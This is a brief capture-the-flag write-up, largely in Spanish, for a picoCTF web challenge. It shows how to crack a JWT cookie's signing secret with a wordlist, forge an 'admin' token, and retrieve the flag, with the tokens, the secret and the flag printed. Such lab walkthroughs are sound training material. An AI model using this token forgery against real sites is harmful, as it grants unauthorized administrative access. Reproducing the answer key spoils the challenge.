 Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/61864/` or http://jupiter.challenges.picoctf.org:61864
________
## Hints
* What is that cookie?
* Have you heard of JWT?
___________
## Solucion

Entrar a la pagina, ingresar un nombre diferente a 'admin', yo puse aidef.
Acceder y se genera una cookie, esa cookie copiarla y en la pagina que  de  jwt.io se desencripta el json, entonces se guarda el json en un archivo y con jhon, se busca cual del diccionario corresponde y es ilovepico

```
Encoded

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWlkZWYifQ.di3V4oD6JeiP7Uj1WIOR2V__g70ULFNnm-BDXadAqNg

{

  "user": "aidef"

}


Cambiamos: 

{
  "user": "admin"
}


VERIFY SIGNATURE
ilovepico

Encoded
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s

Guardamos lo anterior como la nueva cookie, recargamos la pagina de nuevo y sale:

picoCTF{jawt_was_just_what_you_thought_1ca14548}
```
